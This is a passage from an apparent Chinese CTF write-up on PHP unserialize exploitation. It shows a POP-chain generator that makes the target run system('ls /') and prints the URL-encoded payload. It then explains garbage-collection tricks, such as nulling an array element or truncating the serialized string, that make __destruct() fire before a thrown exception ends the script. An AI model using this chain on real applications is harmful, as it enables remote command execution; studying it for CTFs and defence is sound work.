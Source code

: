 ```php
    public function __construct()
    {
        $this->func="system";
        $this->var="ls /";
    }

}

class Crypto{
    public $obj;
    public function __construct()
    {
        $this->obj=new Reverse();
    }

}

class Misc{

}
$a=new Start();
echo @serialize($a);
echo "\n";
echo urlencode(@serialize($a));
```

难点在于反序列化位点的抛出异常

```php
$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

为什么会这样呢？

​		我们要知道，销毁对象的过程通常称为垃圾回收（Garbage Collection）。PHP 的垃圾回收机制是自动的，会在对象不再被引用或无法访问时将其标记为垃圾，并最终回收内存。在对象被销毁时，如果定义了析构函数（即 `__destruct()` 魔术方法），则会自动调用该方法。

​		但是，当 PHP 脚本抛出异常并在异常处理过程中终止时，对象的销毁过程可能会受到影响。在这种情况下，PHP 不会自动销毁对象，也就无法调用对象的 `__destruct()` 方法。这种情况下，脚本的执行状态会从正常状态变为异常状态，并在异常处理过程中停止执行。

​		题目代码中，`throw new Exception("Nope");` 这行代码执行成功并抛出了异常（Fatal error）。在这些情况下，由于异常被抛出并导致脚本终止，`$a` 对象没有机会进行正常的销毁过程，因此 `Start` 类的 `__destruct()` 方法不会被触发。

​		在 PHP 中，垃圾回收机制是通过引用计数来实现的。当一个对象被创建时，它的引用计数为 1。每当有一个新的引用指向该对象时，引用计数就会增加 1。相反，当一个引用不再指向该对象时，引用计数就会减少 1。当对象的引用计数归零时，垃圾回收机制会将其标记为垃圾，并在适当的时候销毁对象。

​		在触发垃圾回收机制并销毁对象时，如果该对象定义了析构函数（即 `__destruct()` 方法），则会自动调用该方法。因此，在正常情况下，当对象的引用计数归零时，它会被销毁，并且 `__destruct()` 方法会被调用。

​		想要提前触发异常这里有三种方法：

​		使得数组对象为 NULL：当一个数组中的元素指向一个对象，而该数组被置为 NULL 时，会导致对象的引用计数减少。如果对象的引用计数归零，垃圾回收机制会将其标记为垃圾并销毁对象。同样地，如果对象定义了 __destruct() 方法，该方法也会被自动调用。

​		去掉序列化后最后一个中括号
